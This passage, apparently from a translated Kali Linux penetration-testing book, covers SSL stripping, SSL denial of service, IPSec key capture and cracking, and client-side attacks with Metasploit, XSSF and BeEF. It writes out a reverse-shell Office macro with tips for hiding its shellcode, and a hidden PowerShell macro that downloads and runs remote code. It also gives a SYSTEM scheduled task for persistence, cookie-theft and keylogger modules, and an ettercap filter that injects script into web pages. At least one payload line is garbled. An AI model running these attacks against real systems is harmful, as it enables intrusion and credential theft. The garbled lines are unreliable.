+   配置信息，例如是否允许 SSL 会话的自动重新协商

SSL 证书可以提供可能用于促进社会工程的信息。

更频繁地，测试人员或攻击者想要确定证书是否有效。无效的证书可能是由于检查签名时出现错误、证书链断裂、证书中指定的域与系统不匹配，或者证书已过期、被吊销或已知已被 compromise。

如果用户之前接受了无效证书，他们很可能会接受新的无效证书，这会使攻击者的工作变得更加容易。

用于保护 SSL 连接的加密类型尤为重要。加密密码分为以下几类：

+   **空密码**: 这些密码用于验证传输的真实性和/或完整性。因为没有应用加密，它们不提供任何安全性。

+   **弱密码**: 这是一个用来描述所有密钥长度为 128 位或更少的密码的术语。使用**Diffie-Hellman 算法**进行密钥交换的密码也可能被认为是弱的，因为它们容易受到中间人攻击的影响。由于碰撞攻击，MD5 哈希的使用也可能被认为是弱的。最近对 RC4 的攻击也对其持续使用提出了质疑。

+   **强密码**: 这些是超过 128 位的密码。目前，接受的最安全选项是具有 256 位密钥的 AES 加密。如果可能的话，应该与 Galois/Counter 模式一起使用，这是一种现代的块密码，支持认证和加密。

SSL 和 TLS 依赖于密码套件（特定的身份验证、加密和消息认证码算法的组合）来为每个连接建立安全设置。有 30 多种这样的套件，为了满足每个安全需求而选择最佳选项的复杂性经常导致用户默认选择不太安全的选项。因此，每个 SSL 和 TLC 连接都必须经过彻底测试。

要对 SSL 连接进行侦察，使用`nmap`或 SSL 特定应用的 NSE 模块。`nmap` NSE 模块在下表中描述。

| Nmap NSE 模块 | 模块功能 |
| --- | --- |
| `ssl-cert` | 检索服务器的 SSL 证书。返回的信息量取决于详细级别（无，`-v`和`-vv`）。 |
| `ssl-date` | 从其 TLS ServerHello 响应中检索目标主机的日期和时间。 |
| `ssl-enum-ciphers` | 反复发起 SSL 和 TLS 连接，每次尝试一个新的密码，并记录主机是否接受或拒绝它。密码显示具有强度评级。这是一种高度侵入性的扫描，可能会被目标阻止。 |
| `ssl-google-cert-catalog` | 查询谷歌的证书目录，以获取与从目标检索的 SSL 证书相关的信息。它提供了谷歌对证书的认识时间和持续时间。如果证书未被谷歌认可，可能是可疑/虚假的。 |
| `ssl-known-key` | 检查主机使用的 SSL 证书是否具有与已知的受损或有缺陷的密钥数据库匹配的指纹。目前，它使用 LittleBlackBox 数据库。但是，可以使用任何指纹数据库。 |
| `sslv2` | 确定服务器是否支持已过时且不太安全的 SSL 版本 2，以及支持哪些密码。 |

要从命令行调用单个脚本，请使用以下命令：

```
root@kali:~# nmap --script <script name> -p 443 <Target IP>

```

在以下示例中，使用`-vv`选项调用了`ssl-cert`脚本以获得最大详细信息。来自此脚本的数据显示在以下截图中：



在侦察期间，测试人员可以选择使用以下命令启动所有 SLL 特定模块：

```
root@kali:~# nmap --script "ssl*" <IP address>

```

Kali 专用于 SSL 和 TLS 的侦察和攻击工具可以从命令行调用，也可以通过导航到**Kali Linux** | **信息收集** | **SSL 分析**菜单中选择。这些工具在下表中总结：

| 工具 | 功能 |
| --- | --- |
| `sslcaudit` | 自动化测试 SSL 和 TLS 客户端，以确定其抵抗中间人攻击的能力。 |
| `ssldump` | 对 SSLv3 和 TLS 通信进行网络协议分析。如果提供了适当的加密密钥，它将解密 SSL 流量并以明文显示。 |
| `sslscan` | 查询 SSL 服务以确定支持哪些密码。输出包括首选的 SSL 密码，并以文本和 XML 格式显示。 |
| `sslsniff` | 在特定局域网上对所有 SSL 连接启用中间人攻击条件，动态为正在访问的域生成证书。 |
| `sslsplit` | 对 SSL 和 TLS 网络执行中间人攻击。连接通过网络地址转换引擎透明拦截并重定向到`sslsplit`，终止原始连接并启动到原始目的地的新连接，同时记录所有传输的数据。它支持纯 TCP、SSL、HTTP/HTTPs 以及 IPv4 和 IPv6。 |
| `sslstrip` | 旨在透明地劫持网络上的 HTTP 流量，监视 HTTPS 链接，并将这些链接重定向并映射为伪造的 HTTP 或 HTTPS 链接。它还支持提供一个看起来像锁图标的 favicon 以及拦截通信的选择性记录模式。 |
| `sslyze` | 分析服务器的 SSL 配置。 |
| `tlssled` | 统一了几个其他 SSL 特定应用程序的使用和输出，检查加密强度、证书参数和重新协商能力。 |

最常用的程序是`sslscan`，它查询 SSL 服务以确定证书详细信息和支持的密码。输出格式为文本和 XML。

在测试特定连接时，使用`--no-failed`选项，如下截图所示，让`sslscan`只显示已接受的密码套件。



`sslyze` python 工具分析服务器的 SSL 配置并验证证书，测试弱密码套件，并识别可能支持其他攻击的配置信息。在下面的截图中，它已经识别出可能支持某些攻击类型的证书不匹配。


另一个 SSL 侦察工具是`tlssled`，如下截图所示。它非常快速、操作简单，输出用户友好。


无论您使用何种方法进行 SSL 侦察，都要确保通过运行至少两种不同的工具来交叉验证您的结果。此外，并非所有配置了 SSL 的设备都会同时在线。因此，在大型网络上，在测试过程中多次扫描 SSL 漏洞。

### 提示

目前正在开发中的一个新工具是 OWASP 的 O-Saft ([www.owasp.org/index.php/O-Saft](http://www.owasp.org/index.php/O-Saft))，它提供了 SSL 配置、密码和证书数据的全面概述。

## 使用 sslstrip 进行中间人攻击

尽管 SSL 保护提供了安全性，但协议也存在一些有效的攻击。2009 年，Moxie Marlinspike 演示了`sslstrip`，这是一个透明地劫持网络上的 HTTP 流量，并将流量重定向为 HTTP 或 HTTPS 链接的工具。它去除了 SSL 保护，并将*安全*锁图标返回给受害者的浏览器，以便拦截不容易被检测到。

简而言之，`sslstrip`发起了对 SSL 的中间人攻击，允许先前受保护的数据被拦截。

要使用`sslstrip`，必须首先使用以下命令将拦截系统配置为转发模式：

```
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward

```

接下来，使用以下命令设置`iptables`防火墙，将 HTTP 流量重定向到`sslstrip`：

```
root@kali:~# iptables –t nat –A PREROUTING –p tcp
  –destination-port 80 –j REDIRECT –to-port <listenport> 

```

在这个例子中，监听端口已设置为端口 5353。

现在配置完成后，使用以下命令运行`sslstrip`：

```
root@kali:~# sslstrip –l 5353

```

以下截图显示了先前命令的执行情况：


最小化执行`sslstrip`的活动终端窗口，并打开一个新的终端窗口。使用以下命令使用`ettercap`来欺骗 ARP 并将流量从网络或目标系统直接重定向到拦截系统：

```
root@kali:~# ettercap –TqM arp:remote /192.168.75.128/ /192.168.75.2/

```

在这里，`ettercap -T`开关选择文本界面，`-q`强制控制台进入安静模式，`-M`选项激活中间人攻击以劫持和重定向数据包。`arp:remote`开关实施 ARP 毒化攻击，并将攻击者置为中间人，能够查看和修改传输中的数据包。如果要查看远程 IP 地址和通过网关的通信，则需要`remote`部分的开关。

上面命令的执行结果如下截图所示：



如果目标系统要访问 SSL 安全内容，他们的查询将通过网关定向到拦截系统。

从用户的角度来看，他们将被引导到该网站，并出现**该站点的安全证书存在问题**的安全警报，提示他们做出决定。如果他们选择**是**，他们将被引导到他们选择的页面。浏览器右下角的锁图标仍然表示 SSL 已启用，表明他们的通信是安全的。

在后台，`sslstrip`工具移除 SSL，留下原始内容，可以在`ettercap`日志中查看，如下截图所示：



这种攻击只对相同的第二层网络段有效。然而，它在有线和无线网络上都能成功。虽然 ARP 重定向可以应用于网络段，但这种攻击会影响网络带宽，可能会被检测到。因此，最有效的方法是将这种攻击直接针对单个设备。

### 提示

要禁用 PREROUTING 规则，将`-A`替换为`-D`。要清除防火墙规则，使用`iptables -t nat -F`（清除命令）和`iptables -t nat -L`（验证表已被清除）。

## 针对 SSL 的拒绝服务攻击

建立 SSL 连接时，服务器必须完成一系列计算密集型的计算来启动握手并开始加密。这需要客户端进行少量的计算工作，服务器则需要更多的计算工作。

如果客户端发起 SSL 连接但拒绝服务器的响应，则 SSL 连接将不会建立。但是，如果 SSL 服务器配置为自动重新协商连接，则计算工作量将导致拒绝服务。

Kali Linux 有几个工具可以帮助您确定是否允许自动重新协商，包括`sslyze`和`tssled`。

如果允许自动重新协商，则输入以下命令将允许测试人员评估对拒绝服务攻击的抵抗力：

```
root@kali:~# thc-ssl- dos <IP address> <port>

```

上面命令的执行结果如下截图所示：


# 攻击 IPSec 虚拟专用网络

**虚拟专用网络**（**VPN**）使用互联网在远程位置或同一网络内的用户之间提供安全（加密）通信。有两种类型的 VPN：**IPSec**和**SSL**。

IPSec 是建立网络之间安全连接和在虚拟专用网络中连接主机最常用的协议。

在 IPSec 中，有几个子协议执行特定功能，例如以下内容：

+   **认证头**（**AH**）：为 IP 数据包提供来源证明，保护它们免受重放攻击。

+   **封装安全协议**（**ESP**）：该协议提供传输数据的来源真实性、完整性和机密性。

+   **安全关联**：这是用于加密和验证传输数据的算法集。因为 SA 与单向数据传输相关联，双向通信由一对安全关联保护。安全关联使用**Internet 安全关联和密钥管理协议**（**ISAKMP**）建立，可以通过多种方式实现。在测试 VPN 的安全性时，最脆弱的配置之一依赖于预共享密钥，**Internet 密钥交换**（**IKE**）。

为了评估 VPN 的安全性，测试人员遵循以下基本步骤：

1.  扫描 VPN 网关的存在。

1.  指纹识别 VPN 网关以确定供应商和配置详细信息。

1.  寻找与 VPN 供应商或相关产品相关的漏洞。

1.  捕获预共享密钥。

1.  执行离线 PSK 破解。

1.  检查默认用户帐户。

## 扫描 VPN 网关

要扫描 VPN 网关的存在，使用`nmap`或`ike-scan`。要使用`nmap`，发出以下命令：

```
root@kali@:~# nmap -–sU -Pn –p 500 <IP Address>

```

在这个例子中，`-sU`指示`nmap`使用 UDP 数据包（而不是 TCP）扫描主机范围以寻找可能的目标，`-Pn`确保`nmap`不会发送 ping 扫描（这可能会警告目标有关扫描并识别测试人员），`-p 500`标识要扫描的特定端口。

`nmap`工具由于处理 IKE 数据包的方式而无法定位所有 VPN 网关；最有效的工具是向目标系统发送格式正确的 IKE 数据包并显示返回消息。

定位 VPN 网关的最佳工具是`ike-scan`（可以通过导航到**Kali Linux** | **信息收集** | **VPN 分析**找到）。`ike-scan`命令行工具使用 IKE 协议来发现和指纹私人网络。它还支持在 IKE 主动模式下破解预共享密钥。要使用`ike-scan`定位目标，发出以下命令：

```
root@kali@:~# ike-scan -M <Target IP>

```

以下屏幕截图显示了上一个命令的执行：


`-M`开关将每个有效负载返回为一行，简化输出。

`ike-scan`工具针对目标设备测试各种转换。一个转换包含多个属性：加密算法（DES 和 3DES）、哈希算法（MD5 和 SHA1）、认证方法（预共享密钥）、Diffie-Hellman 组（选项一是 768 位，选项二是 1024 位）和生命周期（28,800 秒）。它将确定哪些转换引发了成功的响应。

完成对每个已识别设备的`ike-scan`后，程序将返回以下之一：

+   `0 个握手返回；0 个通知返回`：这表示目标不是 IPSec 网关

+   `0 个握手返回；1 个通知返回`：这表示虽然存在 VPN 网关，但`ike-scan`提供给它的转换都不可接受

+   `1 个握手返回；0 个通知返回`：如前面的屏幕截图所示，这表示目标已配置为 IPSec，并将对`ike-scan`提供的一个或多个转换执行 IKE 协商

## 指纹识别 VPN 网关

如果您可以与 VPN 网关建立握手，您可以对设备进行指纹识别，返回以下信息：

+   供应商和型号

+   软件版本

这些信息用于识别特定供应商的攻击或微调通用攻击。

### 注意

如果 VPN 由防火墙托管，指纹识别还将识别所使用的防火墙。

由于 IKE 不能保证传输数据包的可靠性，大多数 VPN 网关供应商使用专有协议来处理看似丢失的流量。`ike-scan`工具向 VPN 网关发送 IKE 探测数据包，但不会回复收到的响应。服务器会假装数据包已丢失，并实施其退避策略以重新发送数据包。通过分析数据包之间的时间差和重试次数，`ike-scan`可以识别供应商。

在下面的截图中显示的示例中，`-M`选项导致每个有效负载显示在单独的一行上，使输出更易于阅读。`ike-scan`的`-showbackoff`选项（如下面的截图所示）记录了发送和接收的所有数据包的响应时间，然后在显示结果之前记录了 60 秒的延迟。


在前面的截图中，**供应商 ID**（**VID**）是一个特定于供应商的 MD5 哈希文本字符串，用于识别专有通信或特定通信细节。

`ike-scan`工具还可用于确定网关是否支持主动模式。如果支持，很难与服务器建立握手，因为服务器不会响应，直到作为识别有效负载的一部分提供了有效的 ID。

## 捕获预共享密钥

`ike-scan`工具可用于将 VPN 网关推入主动模式。这很重要，因为 IPSec 的主动模式不保护预共享密钥。认证凭据以明文形式发送，可以被捕获，然后使用离线工具进行破解。

对 Cisco VPN 集中器发出的以下示例使用以下命令：

```
root@kali@:~# ike-scan --pskcrack --aggressive
--id=peer <target>

```

以下截图显示了先前命令的执行：



如果您希望将结果导出到文本文件以进行额外分析和离线密码破解，请使用以下命令：

```
root@kali@:~# ike-scan --pskcrack --aggressive
  --id=peer <target> > <path/psk.txt> 

```

## 执行离线 PSK 破解

在使用离线工具破解捕获的预共享密钥哈希之前，编辑输出文件以仅包含哈希值（应包含九个以冒号分隔的值）。破解密钥的最有效工具是`psk-crack`，它支持字典、暴力和混合模式破解。


与所有离线破解一样，成功取决于工作和付出的努力（时间、计算工作量和能源投入）。像前面截图中显示的那样，一个强大的预共享密钥将需要很长时间才能破解。

## 识别默认用户账户

与大多数其他硬件设备一样，VPN 网关通常在安装时包含默认用户帐户。这些可能不会被管理员更改。使用在指纹识别过程中收集的信息，测试人员可以进行网络搜索以识别标准用户帐户。

如果测试人员可以访问用户的计算机，用户名凭据通常以明文形式存储在系统注册表中。此外，如果测试人员可以访问系统的内存，就可以直接从客户系统的内存转储中获取密码。

### 提示

**VulnVPN**（[www.rebootuser.com](http://www.rebootuser.com)）是一个虚拟操作系统和易受攻击的 VPN 服务器。它允许您应用本章描述的工具来破坏应用程序并在不损坏生产系统的情况下获得 root 访问权限。

# 总结

在本章中，我们研究了如何利用常见的远程访问应用程序，包括已加密以提供额外安全性的应用程序。我们利用了操作系统通信协议（RDP 和 SSH）和应用程序，如 VNC。我们还学习了如何对安全套接字层连接和虚拟专用网络进行侦察，以及减少加密效果的攻击类型。

在下一章中，我们将看到针对特定通信渠道的联合攻击与针对人类的攻击的结果。在检验这些客户端利用的有效性时，我们将审查几种攻击类型以及**浏览器利用框架**（**BeEF**）项目。

# 第十一章：客户端利用

对于攻击者或有效的渗透测试人员来说，最大的挑战是绕过目标的安全控制以实现妥协。当针对位于网络上的系统时，这可能很困难，因为攻击者通常需要绕过防火墙、代理、入侵检测系统和防御深度架构的其他元素。

成功的绕过策略是直接针对客户端应用程序。用户启动与客户端应用程序的交互，使攻击者能够利用用户和应用程序之间已经存在的信任。社会工程方法的使用将增强客户端攻击的成功率。

客户端攻击针对的是通常缺乏安全控制（尤其是防火墙和入侵检测系统）的系统。如果这些攻击成功并建立了持久的通信，客户端设备可以在重新连接到目标网络时用于发动攻击。

在本章结束时，您将学会如何使用以下方法攻击客户端应用程序：

+   敌对脚本攻击（VBScript 和 PowerShell）

+   跨站脚本框架

+   浏览器利用框架

# 使用敌对脚本攻击系统

客户端脚本，如 JavaScript、VBScript 和 PowerShell，是为了将应用程序逻辑和操作从服务器移动到客户端计算机而开发的。从攻击者或测试者的角度来看，使用这些脚本有几个优点，如下所示：

+   它们已经是目标自然操作环境的一部分；攻击者不需要将大型编译器或其他辅助文件（如加密应用程序）传输到目标系统。

+   脚本语言旨在促进计算机操作，如配置管理和系统管理。例如，它们可以用于发现和更改系统配置、访问注册表、执行程序、访问网络服务和数据库，以及通过 HTTP 或电子邮件传输二进制文件。这些标准的脚本操作可以很容易地被测试人员采用使用。

+   由于它们是操作系统环境的一部分，它们通常不会触发防病毒警报。

+   使用脚本很容易，因为编写脚本只需要一个简单的文本编辑器。使用脚本发动攻击没有障碍。

历史上，JavaScript 是发动攻击的脚本语言选择，因为它在大多数目标系统上广泛可用。由于 JavaScript 攻击已经被充分描述，我们将重点介绍 Kali 如何利用更新的脚本语言（VBScript 和 PowerShell）进行攻击。

## 使用 VBScript 进行攻击

**Visual Basic Scripting Edition**（**VBScript**）是由微软开发的**Active Scripting 语言**。它旨在成为一个轻量级的、Windows 本地的语言，可以执行小型程序。自 Windows 98 以来，VBScript 已经默认安装在每个桌面版的 Microsoft Windows 上，使其成为客户端攻击的一个绝佳目标。

要使用 VBScript 发动攻击，我们将从命令行调用 Metasploit 的`msfpayload`。

```
root@kali:~# msfpayload windows/meterpreter/reverse_tcp
  LHOST=[Your local Host] LPORT= [Your Local Port] V 

```

注意`V`表示输出将是一个 VBS 宏脚本。输出将显示为一个具有两个特定部分的文本文件，如下面的屏幕截图所示：


要使用脚本，打开 Microsoft Office 文档并创建一个宏（具体命令将取决于所使用的 Microsoft Windows 版本）。将以下信息框中给出的文本的第一部分（从`Sub Auto_Open()`到最后的`End Sub`）复制到宏编辑器中，并保存为启用宏。

```
'**************************************************************
'*
'* MACRO CODE
'*
'**************************************************************

Sub Auto_Open()
    Ffqsm12
    End Sub

// Additional code removed for clarity

Sub Workbook_Open()
    Auto_Open
End Sub
```

接下来，将 Shellcode 复制到实际文档中。Shellcode 的部分摘录如下屏幕截图所示：



Shellcode 可识别为可用于执行攻击的脚本，因此您可能希望通过减小字体大小并使颜色与文档的背景匹配来隐藏或混淆 Shellcode。

攻击者必须在 Metasploit 上设置监听器。在命令提示符下输入`msfconsole`后，攻击者通常会输入以下命令，并设置主机、端口和有效载荷的选项；此外，攻击者还将配置连接自动迁移到更稳定的`explorer.exe`进程，如下面的命令行所示。

```
msf>use exploit/multi/handler 
msf>set lhost 192.168.43.130
msf>set lport 4444
msf>set payload windows/meterpreter/reverse_tcp
msf>set autorunscript migrate -n explorer.exe
msf >exploit 

```

当文件发送到目标时，打开时会弹出一个安全警告；因此，攻击者将使用社会工程学来迫使预期的受害者选择**启用**选项。最常见的方法之一是将宏嵌入已配置为玩游戏的 Microsoft Word 文档或 Excel 电子表格中。

打开文档将创建一个反向 TCP shell 返回给攻击者，允许攻击者确保与目标的持久连接并进行后期利用活动。

扩展这种攻击方法，我们可以使用位于`/usr/share/metasploit-framework/tools`的`exe2vba.rb`将任何可执行文件转换为 VBScript。

例如，首先使用 Metasploit 框架创建一个后门。注意`X`表示后门将被创建为一个可执行文件（`attack.exe`），如下面的屏幕截图所示：


接下来，使用以下命令执行`exe2.vba`将可执行文件转换为 VBScript（确保使用正确的路径名）：

```
# ruby exe2vba.rb attack.exe  attack.vbs
[*] Converted 73802 bytes of EXE into a VBA script

```

这将允许将可执行文件放置在一个 Microsoft 启用宏的文档中并发送给客户端。VBScript 可用于执行反向 shell 并更改系统注册表，以确保 shell 保持持久。我们发现这种类型的攻击是绕过网络安全控制并保持与受保护网络连接的最有效方式之一。

从攻击者的角度来看，使用基于 VBScript 的漏洞利用有一些显著的优势（这仍然是一个强大的工具）。然而，它的使用正在迅速被更强大的脚本语言 PowerShell 所取代。

## 使用 Windows PowerShell 进行攻击系统

Windows PowerShell 是一个命令行 shell 和脚本语言，旨在用于系统管理。基于.NET 框架，它扩展了 VBScript 中可用的功能。语言本身是相当可扩展的。由于它是建立在.NET 库上的，你可以将来自诸如 C#或 VB.NET 等语言的代码合并进来。你还可以利用第三方库。尽管它是可扩展的，但它是一种简洁的语言。需要超过 100 行代码的 VBScript 可以减少到只有 10 行 PowerShell！

也许，PowerShell 最好的特性是它默认情况下在大多数现代基于 Windows 的操作系统（Windows 7 及更高版本）上可用，并且无法被移除。

我们将使用 Metasploit Framework 附带的 PowerShell 脚本来支持 Kill Chain 的攻击阶段。

为了发动攻击，我们将使用 Metasploit Framework 的 PowerShell Payload Web Delivery 模块。该模块的目的是快速在目标系统上建立会话。攻击不会写入磁盘，因此不太可能触发客户端防病毒软件的检测。攻击的启动和可用的模块选项如下截图所示：



Metasploit Framework 将生成一个可以嵌入文档并用于发动攻击的一行宏，如下示例代码所示：

```
 Sub AutoOpen()
 Call Shell("PowerShell.exe -w hidden -nop -ep bypass -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.102:4444/boom'))"",1)
 End Sub

```

在攻击完成之前，攻击者必须为传入 shell 准备一个监听器（`URIPATH`由 Metasploit 随机生成；确保为监听器设置正确的`URIPATH`）。创建监听器的命令如下：

```
 msf> use exploit/windows/misc/psh_web_delivery
 msf exploit(psh_web_delivery) > set SRVHOST 192.168.1.102
 msf exploit(psh_web_delivery) > set URIPATH boom
 msf exploit(psh_web_delivery) > exploit

```

成功的攻击将在攻击者的系统上创建一个交互式 shell。

### 提示

可以使用`schtask`命令使`psh_web_delivery`持久化。以下命令将创建一个计划任务`MSOfficeMngmt`，该任务将在登录时实现`powershell.exe`（默认情况下位于`Windows\system32`目录中）：

```
schtasks /create /tn MSOfficeMngmt /tr "powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep -bypass -nop -c 'IEX ((new-object net.webclient).downloadstring (''http://192.168.1.104:4444/boom'''))'" /sc onlogon /ru System

```

Kali 的 PowerSploit 目录中可以找到用于支持后期利用活动的额外 PowerShell 脚本。尽管 PowerShell 具有灵活性，但它也有一些缺点。

例如，如果最终用户在应用持久性机制之前关闭包含宏的文档，则连接将丢失。

更重要的是，诸如 VBScript 和 PowerShell 之类的脚本只对 Microsoft 环境有用。为了扩大客户端攻击的范围，我们需要寻找一个通用的客户端漏洞，无论其操作系统环境如何都可以利用。这种漏洞的一个特例就是跨站脚本攻击。

# 跨站脚本框架

**跨站脚本**（**XSS**）漏洞据报道是网站中发现的最常见的可利用漏洞。据估计，它们存在于高达 80％的所有应用程序中。

XSS 漏洞发生在应用程序（通常是基于 Web 的）违反了被称为**同源策略**的信任概念，并显示了未经消毒以删除恶意语句的用户提供的内容。

至少有两种主要类型的 XSS 漏洞：**非持久**和**持久**。

最常见的类型是非持久或反射漏洞。当客户端提供的数据立即被服务器用于显示响应时，就会发生这种漏洞。这种漏洞的攻击可以通过电子邮件或第三方网站提供看似引用受信任网站但包含 XSS 攻击代码的 URL 来发生。如果受信任的网站容易受到这种特定攻击的影响，执行该链接可能导致受害者的浏览器执行一个恶意脚本，可能导致妥协。

持久（存储）XSS 漏洞发生在攻击者提供的数据被服务器保存，然后在用户浏览过程中永久显示在受信任的网页上。这通常发生在允许用户发布 HTML 格式消息的在线留言板和博客上。攻击者可以在网页上放置一个对传入用户不可见的恶意脚本，但会危害访问受影响页面的访客。

Kali Linux 上存在一些工具用于查找 XSS 漏洞，包括 xsser 和各种漏洞扫描器。然而，有一些工具允许测试人员充分利用 XSS 漏洞，展示了这种弱点的严重性。

**跨站脚本框架**（**XSSF**）是一个多平台安全工具，利用 XSS 漏洞与目标创建通信渠道，支持包括：

+   对目标浏览器进行侦察（指纹识别和先前访问的 URL）、目标主机（检测虚拟机、获取系统信息、注册表键和无线键）以及内部网络。

+   向目标发送警报消息弹出。这种简单的“攻击”可以用来演示 XSS 漏洞，但更复杂的警报可以模仿登录提示并捕获用户身份验证凭据。

+   窃取使攻击者能够冒充目标的 Cookie。

+   将目标重定向以查看不同的网页。敌对的网页可能会自动下载一个漏洞利用到目标系统上。

+   加载 PDF 文件或 Java 小程序到目标，或从 Android 移动设备中窃取数据，如 SD 卡内容。

+   发动 Metasploit 攻击，包括`browser_autopwn`，以及拒绝服务攻击。

+   发动社会工程攻击，包括自动完成窃取、点击劫持、Clippy、假闪存更新、网络钓鱼和标签窃取。

此外，**XSSF 隧道**功能允许攻击者冒充受害者并使用其凭据和会话浏览网站。这可以是访问内部企业内部网的有效方法。

API 有很好的文档，允许轻松创建新的攻击模块。由于它是用 Ruby 编写的，API 与 Metasploit Framework 集成，允许攻击者发动额外的攻击。

要使用 XSSF，必须安装并配置以支持以下步骤的攻击：

1.  XSSF 不随 Kali 一起提供。首先，用户必须打开一个终端窗口，并使用以下命令设置适当的目录：

```
root@kali:~# cd /opt/metasploit/apps/pro/msf3

```

1.  使用以下命令安装 XSSF：

```
svn export http://xssf.googlecode.com/svn/trunk ./ --force 

```

确保使用`svn export`而不是`svn checkout`，因为后者的命令会破坏现有的 MSF `svn`文件。成功安装的摘录如下截图所示：



1.  从 Metasploit Framework 控制台，使用`load xssf`命令加载 XSSF 插件，如下截图所示：

1.  通过输入`helpxssf`来识别 XSSF 命令，如下截图所示：

1.  从控制台，使用以下命令访问与插件相关的 URL：

```
msf>xssf_urls

```

前一个命令的执行如下截图所示，可以看到识别出了几个 URL：


最重要的 URL 是位于本地主机上的 XSSF 服务器。还识别出了其他几个 URL，包括以下内容：

+   `通用 XSS 注入`：这是您试图让受害者点击或执行的目标。

+   `XSSF 测试页面`：XSSF 提供对易受 XSS 攻击的本地测试页面的访问。这可以用来在实际测试期间验证攻击和结果。

+   `XSSF 隧道代理`：XSSF 允许攻击者在保留其安全身份的同时使用受损主机的身份进行浏览。

+   `XSSF 日志页面`：记录攻击和接收到的信息。不幸的是，日志页面提供了一个非常黑暗的背景，很难看到返回的信息。在测试期间，我们通常通过命令行访问日志信息，这样更清晰，并且可以进行脚本化。

+   `XSSF 统计页面`。

+   `XSSF 帮助页面`。

我们将使用易受攻击的 Web 应用程序**Mutillidae**来演示 XSSF。Mutillidae 是 Metasploitable 项目的一部分，可以从[`sourceforge.net/projects/metasploitable/files/Metasploitable2/`](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/)下载。有关安装此易受攻击目标的注意事项，请参阅附录*安装 Kali Linux*。

1.  一旦打开 Mutillidae，导航到博客页面；这个页面已知容易受到 XSS 攻击（您可以使用漏洞扫描工具对 Mutillidae 进行扫描，以识别其他潜在的插入点）。

要对目标客户端发动攻击，不要在博客中输入常规帖子。相反，输入包含目标 URL 和端口的脚本元素：

```
<script src="img/loop?interval=5"></script>
```

下面的截图显示了攻击代码在目标网站的博客页面上的放置。



当这个被输入并受害者点击**保存博客条目**时，他们的系统将被攻击。从 Metasploit Framework 控制台，测试人员可以使用`xssf_victims`和`xssf_information`命令获取有关每个受害者的信息。执行`xssf_victims`命令后，将显示有关每个受害者的信息，如下截图所示：



此时最常见的 XSS 攻击是向客户端发送简短且相对无害的消息或*警报*。使用 Metasploit Framework，可以通过输入以下命令相对简单地实现：

```
msf > use auxiliary/xssf/public/misc/alert
msf auxiliary(alert) > show options

```

在审查选项后，可以从命令行快速发送警报，如下截图所示：


受害者将看到一条消息，如下面的截图所示：


通常，大多数测试人员和他们的客户使用这样简单的警报消息来验证跨站脚本。这证明了“漏洞”存在。

然而，简单的警报缺乏情感冲击。它们经常识别出真正的漏洞，但客户端并不会因为警报消息被认为不构成重大威胁而对漏洞做出响应和调解。幸运的是，XSSF 允许测试人员“加大赌注”，展示更复杂和危险的攻击。

XSSF 可以使用以下命令来窃取 cookie：

```
msf> use auxiliary/xssf/public/misc/cookie
msfauxillary(cookie) > show options (ensure all needed options selected)
msfauxillary(cookie) > run

```

`run`命令的执行如下截图所示：


攻击完成后，可以通过查看 XSSF 日志页面的结果或直接使用命令来找到 cookie，如下截图所示：


`auxiliary/xssf/public/misc`中的一些其他有用的命令包括：

+   `check_connected`：此命令检查受害者是否已打开任何社交网络站点（Gmail、Facebook 或 Twitter）

+   `csrf`：它发动跨站点请求伪造攻击

+   `keylogger`：此命令在客户端上调用键盘记录器

+   `load_applet`和`load_pdf`：这些命令在客户端上加载恶意的 Java 小程序和 PDF 文件，并调用它们来启动预先配置的恶意软件

+   `redirect`：将客户端重定向到指定的网页

+   `webcam_capture`：此命令从客户端的网络摄像头中捕获图像

这只是一个不完整的列表，但它显示了该工具的发展程度。此外，还有一些用于网络扫描和发动拒绝服务攻击的模块，以及一些用于确保攻击完成后持久性的模块。

XSSF 还可以与 ettercap 一起用于破坏内部网络。例如，ettercap 可以用于将`</head>`数据替换为指向恶意页面的链接，方法是在名为`attack`的过滤器中放置以下代码：

```
if (ip.proto == TCP && tcp.src == 80) {
  if (search(DATA.data, "</head>")) {
    replace("</head>", "</head><script src=\"http://192.168.43.130:8888/test.html\"></script> ");
  }
}
```

然后必须使用以下命令将过滤脚本转换为二进制文件：

```
 etterfilter attack.filter –o attack.ef

```

要对网络上的所有用户发动此攻击，请使用以下命令执行`ettercap`：

```
 ettercap –T –q –F attack.ef –M ARP // //

```

XSSF，特别是当集成到 Metasploit Framework 中时，是利用 XSS 漏洞的非常强大的工具。然而，最近出现了一个新星，可以帮助您实现类似的攻击：浏览器利用框架。

# 浏览器利用框架-BeEF

BeEF 是一个专注于特定客户端应用程序的利用工具：Web 浏览器。

BeEF 允许攻击者使用 XSS 或 SQL 注入等攻击将 JavaScript 代码注入到易受攻击的 HTML 代码中。这种利用代码被称为**hook**。当浏览器执行 hook 时，就会实现妥协。浏览器（**zombie**）连接到 BeEF 应用程序，该应用程序向浏览器提供 JavaScript 命令或模块。

BeEF 的模块执行以下任务：

+   指纹识别和受损浏览器的侦察。它还可以用作评估存在于不同浏览器下的利用和其行为的平台。

### 注意

请注意，BeEF 允许我们在同一客户端上连接多个浏览器，以及跨域连接多个客户端，然后在利用和后利用阶段对它们进行管理。

+   对目标主机进行指纹识别，包括虚拟机的存在。

+   检测客户端上的软件（仅限 Internet Explorer）并获取`Program Files`和`Program Files（x86）`目录中的目录列表。这可能会识别其他可以利用以巩固我们对客户端的控制的应用程序。

+   使用受损系统的网络摄像头拍照；这些照片在报告中具有重要影响。

+   搜索受害者的数据文件并窃取可能包含身份验证凭据（剪贴板内容和浏览器 cookie）或其他有用信息的数据。

+   实施浏览器按键记录。

+   使用 ping 扫描和指纹网络设备进行网络侦察，并扫描开放端口。

+   从 Metasploit Framework 发动攻击。

+   使用隧道代理扩展攻击内部网络，利用受损的 Web 浏览器的安全权限。

因为 BeEF 是用 Ruby 编写的，所以它支持多个操作系统（Linux，Windows 和 OS X）。更重要的是，它很容易定制 BeEF 中的新模块并扩展其功能。

## 安装和配置浏览器利用框架

BeEF 不是 Kali 发行版的一部分，但已经打包了所需的依赖项，以支持在 Kali 中进行自动安装。要安装 BeEF，请使用以下命令：

```
root@kali:~# apt-get install beef-xss

```

BeEF 将安装在`/usr/share/beef-xss`目录中。默认情况下，它没有与 Metasploit Framework 集成。要集成 BeEF，您需要执行以下步骤：

1.  编辑位于`/usr/share/beef-xss/config.yaml`的主配置文件以读取：

```
metasploit:
  enable:true
```

